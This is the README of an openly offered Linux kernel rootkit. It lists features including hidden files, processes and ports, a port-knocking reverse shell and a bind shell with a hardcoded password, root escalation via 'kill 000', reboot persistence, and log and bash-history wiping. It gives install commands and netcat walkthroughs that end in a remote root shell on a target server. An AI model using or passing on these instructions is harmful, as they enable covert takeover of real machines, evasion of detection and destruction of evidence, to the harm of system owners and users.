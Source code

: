 <h2>BDS LKM ROOTKIT</h2>
<p>
Linux Loadable Kernel Module Rootkit for Linux Kernel 5.x and 6.x on x86_64.
<br>
Developed by : Antonius 
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter : https://twitter.com/bluedragonsec
<br>  
This lkm rootkit works on x64 architecture only.
<br>
Features : 
<ul>
  <li>hide files and directories with prefix bds_</li>
  <li>port knocking bind shell (bind shell password is bluedragonsec)</li>
  <li>port knocking reverse shell</li>
  <li>privilege escalation using kill 000 command</li>
  <li>hide bind shell and reverse shell port from netstat</li>
  <li>hide bind shell and reverse shell process</li>
  <li>rootkit persistence to survice after reboot</li>
  <li>hide from lsmod</li>
  <li>Clean logs and bash history</li>
  
</p>
<h3>Installation</h3>
<p>
In case you have installed linux kernel headers, make and gcc, install it by running the installer script:
<br>
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed linux kernel headers, make and gcc, install it by running the installer script  :
<br>
<pre>
./install.sh
</pre>
<br>
</p>
<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>  
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing : <b>kill 000</b>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ kill 000
robotsoft@robotsoft:~$ id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
</pre>  
</p>
<p>
<b>Activating Reverse Shell</b>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then do port knocking to your target server (with rootkit installed) on port 1337.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and do port knocking to target server :
<pre>
nc server ip 1337
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Do port knocking to target ip address (with rootkit installed) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1337
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
robotsoft@robotsoft:~$ nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.0.102 44052
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>

<p>
<b>Activating Bind Shell</b>
<br>
To activate bind shell, you need to do port knocking to your target server (with rootkit installed) on port 1338.
The bind shell password is : bluedragonsec
<br>
On your machine, open terminal and type:
<pre>
nc server ip 1338
</pre>  
Wait a few seconds then type:
<pre>
nc server ip 31337
type the password : bluedragonsec
</pre>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1338
(wait a few seconds)
robotsoft@robotsoft:~$ nc 192.168.0.102 31337
Password :bluedragonsec
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>
<p>
<b>Hiding Files and Directories</b>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>
<p>
<b>Persistence</b>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>


